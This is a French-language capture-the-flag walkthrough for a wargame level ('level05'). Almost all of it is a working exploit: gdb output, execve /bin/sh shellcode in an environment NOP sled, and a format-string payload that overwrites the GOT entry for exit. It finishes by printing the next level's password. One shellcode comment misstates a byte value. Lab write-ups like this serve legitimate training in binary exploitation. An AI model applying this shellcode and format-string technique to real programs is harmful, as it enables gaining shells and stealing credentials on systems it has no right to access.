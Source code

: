 # gdb:
	> disas exit
<<< Dump of assembler code for function exit@plt:
<<< 0x08048370 <+0>:	jmp    *0x80497e0
<<< 0x08048376 <+6>:	push   $0x18
<<< 0x0804837b <+11>:	jmp    0x8048330
<<< End of assembler dump.

On va modifier exit pour qu'il jump au shellcode ci-dessous:

# char sc[] = "\x6a\x0b" // push byte +0xb
# "\x58" // pop eax
# "\x99" // cdq
# "\x52" // push edx
# "\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
# "\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
# "\x89\xe3" // mov ebx, esp
# "\x31\xc9" // xor ecx, ecx
# "\xcd\x80"; // int 0x80

# bash:
	export PAYLOAD05=$(python -c "print '\x90'*500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")

	<!-- > export PAYLOAD05=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'") -->

# gdb:
	> b main
	> r
	> x/200s environ
<<< 0xffffdd40: "PAYLOAD05=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\..."
	> x/200c 0xffffdd40
<<< 0xffffdd40:	80 'P' 65  'A' 89  'Y' 76  'L' 79  'O' 65  'A' 68  'D' 48  '0'
0xffffdd48: 53  '5' 61  '=' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'
0xffffdd50: -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'	-112 '\220'	-112 '\220'	-112 '\220'

Prenons une adresse de notre payload dans le nop sled, par exemple 0xffffdd58

0xffffdd58
0xffffdd58 - 8 = ffff dd50
dd50 = 56656
ffff - dd58 = 8879	

# bash:
	<!-- b *0x0804850c -->
	<!-- r < <(cat /tmp/payload05) -->
	<!-- x/24bx 0x080497e0 -->

	> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56656c" + "%10$hn" + "%8871c" + "%11$hn"' > /tmp/payload05
	> cat /tmp/payload05 - | ./level05
	> cat /home/users/level06/.pass
<<< h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq